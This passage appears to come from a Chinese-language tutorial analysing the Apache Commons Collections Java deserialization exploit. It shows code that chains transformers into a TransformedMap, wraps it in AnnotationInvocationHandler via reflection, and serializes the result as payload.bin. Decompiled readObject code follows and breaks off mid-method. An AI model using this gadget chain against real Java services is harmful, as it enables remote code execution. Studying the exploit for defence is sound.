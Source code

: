 ```java

        //将transformers数组存入ChaniedTransformer这个继承类
        Transformer transformerChain = new ChainedTransformer(transformers);

        //创建Map并绑定transformerChina
        HashMap<Object, Object> innerMap = new HashMap();
        innerMap.put("value", "hack");
        //给予map数据转化链
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);

        /*Map.Entry onlyElement = (Map.Entry) outerMap.entrySet().iterator().next();
        onlyElement.setValue("foobar");*/

        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = c.getDeclaredConstructor(Class.class, Map.class);
        ctor.setAccessible(true);
        Object o = ctor.newInstance(SuppressWarnings.class, outerMap);

        //payload序列化写入文件，模拟网络传输
        FileOutputStream fos = new FileOutputStream("payload.bin");
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(o);

        //服务端读取文件，反序列化，模拟网络传输
        FileInputStream fis = new FileInputStream("payload.bin");
        ObjectInputStream ois = new ObjectInputStream(fis);
        ois.readObject();

    }
}
```

和PoC相比，Exp主要增加了一个AnnotationInvocationHandler类的使用，下面主要分析一下AnnotationInvocationHandler相关代码。

##### AnnotationInvocationHandler

```java
    private final Class<? extends Annotation> type;
    private final Map<String, Object> memberValues;

    AnnotationInvocationHandler(Class<? extends Annotation> var1, Map<String, Object> var2) {
        this.type = var1;
        this.memberValues = var2;
    }

    private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
        var1.defaultReadObject();
        AnnotationType var2 = null;

        try {
            var2 = AnnotationType.getInstance(this.type);
        } catch (IllegalArgumentException var9) {
            throw new InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map var3 = var2.memberTypes();
        Iterator var4 = this.memberValues.entrySet().iterator();

        while(var4.hasNext()) {
            Map.Entry var5 = (Map.Entry)var4.next();
            String var6 = (String)var5.getKey();//1
            Class var7 = (Class)var3.get(var6);//2
            if (var7 != null) {
                Object var8 = var5.getValue();
```